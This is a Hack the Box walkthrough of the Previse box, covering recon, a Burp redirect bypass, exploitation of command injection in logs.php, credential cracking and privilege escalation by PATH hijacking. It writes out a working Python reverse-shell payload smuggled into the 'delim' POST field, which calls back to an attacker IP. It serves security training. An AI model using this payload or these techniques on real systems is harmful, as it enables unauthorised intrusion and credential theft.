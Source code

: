```yaml
---
description: Hack the Box Previse Writeup
---
```


# 🪄 Previse Writeup

![](.gitbook/assets/card.PNG)

We start off this box, as always, with an nmap scan. We use -sV -sC for default scripts and version information.

![](.gitbook/assets/nmap.PNG)

Not many services running on this box it seems. We have an SSH port that we could possibly bruteforce if needed and an Apache webserver running on port 80. Of course we have to go investigate that. Plugging in the IP into our browser we are redirected to a login page.

![](.gitbook/assets/web.PNG)

Trying some basic SQL injection tricks doesn't get me anywhere so time to fire up dirbuster to see if there are any directories hidden from us.

![](.gitbook/assets/dir.PNG)

Right away we get quite a few hits. A lot of the juicy directories seem to be 302 redirects though. Luckily for us there might be a way we can work around it. A while back I learned a trick where you can replace response headers and get around a redirect using BurpSuite. So lets give that a shot. Firing up Burp we start a temporary project and head over to the proxy tab. In here I am going to go over to options and down to the match and replace section. Here I add a rule to replace all '302 Found' with '200 OK' from the response headers going through Burp's proxy. It should look like this:

![](.gitbook/assets/burp1.PNG)

Once this is setup we go over to our browser and turn on the Burp proxy. For the first page lets try to reach accounts.php which seems juicy and provided a 302 response to dirbuster. I plug it in to the browser and we see burp light up. Just click forward and BAM, here we are on the accounts page!

![](.gitbook/assets/burp2.PNG)

It even says all in red that only admins should be on this page. Perfect! So what does this homepage have to offer us? Well we can see that we can add a new account, probably for that login page. We also see there is an accounts tab, a files tab, and a management menu tab. First lets get an account on the system and see what we can do. Once we create an account and login we are greeted with the homepage.

![](.gitbook/assets/indexe.PNG)

This is a file hosting platform. Interesting... This probably means there's some interesting stuff in the files tab so lets head over there. Upon loading up the page we can see there's a site backup zip file. After downloading and opening it we can see it contains all the back end parts of the website. This is huge! We can use this find potential vulnerabilities in the website and then exploit them.

![](.gitbook/assets/siteback.PNG)

Taking some time to read through each of the files is the most important thing now. Here are my notes from this:

* mySQL DB password for root in config.php
* SQLi through uploaded filename? Didn't work
* Comment in logs.php about python instead of PHP \[RED FLAG]

From my last note you can get where we wanna look first. Looking through logs.php you can see this line right here:

```
$output = exec("/usr/bin/python /opt/scripts/log_process.py {$_POST['delim']}");
```

Big red flag. This exec function is running a python script along with our raw, unfiltered input. This input being the delim value. It looks to me like we can get this to execute out own commands for us and maybe get a reverse shell back. Using [revshells](https://www.revshells.com) I created a python payload to send. Here is the complete payload being sent in the request body to the log.php page:

```
delim=comma
export RHOST="10.10.14.23";export RPORT=9001;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
```

Once I sent this I immediately got a shell back!

![](.gitbook/assets/shell.PNG)

Once I got that shell I looked around a bit. Didn't seem like I had access to much. Now if you look back in my notes above you see that we found a mysql database password. That was my next move. Lets take a peek into that. Logging in using root and the password we found we can see that there is a database called 'previse'. Inside this we see there are two tables, accounts and files. Accounts is the more interesting so we ask it to describe the accounts table and see there are usernames and passwords. I ask it to print those out for us and we get:

![](.gitbook/assets/sqlDB.PNG)

We have my account that I created to login tot he page along with the owners account and hashed password. Hmm, could we crack it?

Looking at the hash it seems to be an MD5 hash but to figure out which type we are looking to crack we can checkout the [hashcat example hashes](https://hashcat.net/wiki/doku.php?id=example\_hashes). Looks like a 500 to me.

![](.gitbook/assets/hashcat.PNG)

After letting hashcat rip for less than a second it finds the password. Using this we can maybe see if the same user on the webserver has reused this password.

![](.gitbook/assets/user.PNG)

It worked! We got the user flag but now to root the box. From running 'sudo -l' we get back this:

```
User m4lwhere may run the following commands on previse:
    (root) /opt/scripts/access_backup.sh
```

Lets go investigate this access\_backup script. Unfortunately the script is read only but in it that binaries are called directly. This means that it could be vulnerable to path injection. To get this to work we need to create a script named gzip for it to run instead of the orginial gzip binary. To do this I created a gzip file in /tmp and in it I have a reverse shell that will call back to me when run. I then edited the system path variable to have it search for the binary being run in /tmp along with everywhere else. Because I appeded the tmp directory to the left side of the variable it will be run first because it reads left to right. Now all that's left to do is run it and hope for the best...

![](.gitbook/assets/privesc.PNG)

### PWNED!
